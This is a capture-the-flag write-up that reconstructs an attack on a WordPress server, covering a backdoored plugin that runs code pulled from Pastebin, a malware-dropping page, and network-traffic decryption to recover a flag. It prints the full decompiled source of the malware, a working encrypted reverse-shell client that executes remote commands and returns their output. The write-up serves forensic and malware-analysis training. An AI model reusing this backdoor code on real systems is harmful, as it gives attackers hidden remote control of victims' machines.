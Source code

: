 ```yaml
---
title: "Inception Write Up"
date: 2024-10-20 18:00:00 +0800
categories: [CTF Write ups]
tags: [Forensics, Malware, Reverse Engineering]
description: Write Up of the Inception Challenge in Cyber Odyssey 2024 Qualifications
image: ../images/odyssey/odyssey.png
---
```

# Inception Write Up

![](../images/odyssey/0.png)

In this challenge, we have two files: a Linux server file system and a Wireshark network capture file.

![](../images/odyssey/1.png)

Analyzing the file system, we found the website hosted on this server at /srv/www/. It is a WordPress website.

![](../images/odyssey/2.png)

### The first part of the flag

In the WordPress files, specifically in the plugins folder (/srv/www/wp-content/plugins), we found two plugins.

![](../images/odyssey/3.png)

The plugin-manager contains a single PHP file, which is unusual. In the plugin-manager.php code, we discovered a Pastebin link. 

![](../images/odyssey/4.png)

Essentially, the script retrieves data from that Pastebin, decodes it from Base64, and executes it.

![](../images/odyssey/5.png)

After decoding the Base64 text, we obtained a script (which is a reverse shell script). Within this script, we found a variable ($secpart) that holds the first part of the flag in decimal:

![](../images/odyssey/6.png)

"65 75 65 83 69 67 123 55 104 51 95" -> `AKASEC{7h3_`

### The second part of the flag

Now that we have the first part, we still need to find the other two.

Next, we examined the main folder of WordPress. The index.php file refers us to free_items.php. The website displays the text: "Congrats! You Won a free Arduino! Click On The Image To See More Details," and clicking the image downloads an executable (which is malware).

Analyzing the website source code, we noticed obfuscated JavaScript. In the array of strings, we found a hex string containing the second part of the flag:

![](../images/odyssey/7.png)

"3472375f30665f6326635f" -> `4r7_0f_c&c_`

### The third part of the flag

The JavaScript also contains a Base64 text of the executable, so we retrieved the malware for analysis.

#### Static Analysis of the Malware

![](../images/odyssey/8.png)

![](../images/odyssey/9.png)

The malware is a PE32+ executable written in Python. To reverse it and see the source code, I used [pyinstxtractor.py](https://github.com/extremecoders-re/pyinstxtractor) to extract the contents of this PyInstaller-generated executable file.

![](../images/odyssey/10.png)

Once extracted, we decompiled the main file (client.pyc). It contained obfuscated Python code that establishes a connection to a remote server using port 1337 to receive and execute commands sent by the server. These commands are encrypted using AES and XOR.

```py
import socket
import sys
import time
import subprocess
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding
import os
_DW_ = 1337

def _X_X_(_):
    return ''.join((chr(__) for __ in _))

def _X_Y_(_):
    __ = len(_)
    ___ = ''.join([chr(ord(____) ^ __) for ____ in _])
    return ___
_0x20_ = _X_Y_(_X_X_([60, 58, 63, 35, 63, 63, 35, 63, 60, 35, 63, 61, 63]))
_0x0_ = _X_Y_(_X_X_([16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 65, 66, 67, 68, 69, 70, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 65, 66, 67, 68, 69, 70])).encode()
_0x01_ = _X_Y_(_X_X_([113, 114, 115, 116, 117, 118, 41, 40, 39, 38, 37, 36, 35, 34, 33, 32])).encode()
_0x00_ = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
_0x00_.connect((_0x20_, _DW_))

def _234234_(_):
    __ = len(_)
    ___ = ''.join([chr(ord(____) ^ __) for ____ in _])
    return ___

def _777_(_):
    __ = len(_)
    ___ = ''.join([chr(ord(____) ^ __) for ____ in _])
    return ___

def __(_0x, _, _func):
    _0xPP = padding.PKCS7(algorithms.AES.block_size).padder()
    _0xPD = _0xPP.update(_0x.encode()) + _0xPP.finalize()
    _0xC = Cipher(algorithms.AES(_), modes.CBC(_func), backend=default_backend())
    _0xE = _0xC.encryptor()
    _0x555 = _0xE.update(_0xPD) + _0xE.finalize()
    return _0x555

def ____(___, _____, _):
    _CC = Cipher(algorithms.AES(_____), modes.CBC(_), backend=default_backend())
    _D = _CC.decryptor()
    _DD = _D.update(___) + _D.finalize()
    u = padding.PKCS7(algorithms.AES.block_size).unpadder()
    _DD = u.update(_DD) + u.finalize()
    return _DD.decode()

def _(__):
    _ = b''
    while True:
        ___ = __.recv(1024)
        print(___)
        if not ___:
            break
        _ = _ + ___
        if len(___) < 1024:
            break
    return _

def _____(_, __, ___=1024):
    ____ = 0
    while ____ < len(__):
        _____ = _.send(__[____:____ + ___])
        ____ += _____
while True:
    try:
        ___________ = _(_0x00_)
        print(___________)
        ___________ = ____(___________, _0x0_, _0x01_)
        print(___________)
        ___________ = _777_(___________)
        print(___________)
        print('received : {}'.format(___________))
        ___________ = subprocess.run(___________, shell=True, capture_output=True, text=True)
        print(___________.returncode)
        if not ___________.returncode:
            print(___________.stdout)
            ___________ = _234234_(___________.stdout)
            ___________ = __(___________, _0x0_, _0x01_)
            _____(_0x00_, ___________)
        else:
            ___________ = _234234_(___________.stderr)
            ___________ = __(___________, _0x0_, _0x01_)
            _0x00_.send(___________)
    except KeyboardInterrupt:
        _0x00_.close()
        print('connection closed !!!')
        exit()
```

After deobfuscating the code, we found the key and IV used for AES encryption:

`KEY = b'0123456789abcdef0123456789abcdef'`
`IV = b'abcdef9876543210'`

Now that we have the network capture file, we can analyze the commands executed on the server.

#### Analyzing Network Traffic

We filtered the TCP protocol by port 1337 and followed the stream. The data in red represents the client commands sent to the server (the victim computer), while the blue data shows the output of those commands.

![](../images/odyssey/11.png)

Next, we needed to change the output of the packets from ASCII to RAW.

![](../images/odyssey/12.png)

This is the Python script I created to decrypt the traffic based on the script that encrypted them.

```py
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding

KEY = b'0123456789abcdef0123456789abcdef'
IV = b'abcdef9876543210'

def decrypt_xor(data):
    length = len(data)
    result = ''.join([chr(ord(i) ^ length) for i in data])
    return result

def to_decrypt(a, key, iv):
    CC = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    D = CC.decryptor()
    DD = D.update(a) + D.finalize()
    u = padding.PKCS7(algorithms.AES.block_size).unpadder()
    DD = u.update(DD) + u.finalize()
    return DD.decode()

a = bytes.fromhex("") # here put the RAW data
a = to_decrypt(a, KEY, IV)
a = decrypt_xor(a)
print(a)
```

When decrypting the traffic, we found that one of the commands sent to the server contained the last part of the flag.

![](../images/odyssey/13.png)

Flag : `AKASEC{7h3_4r7_0f_c&c_15_m1nd_bl0w1n6}`

### Conclusion

In conclusion, this challenge was good. I enjoyed it, even though I spent a significant amount of time finding the first part that was hidden in the plugin.

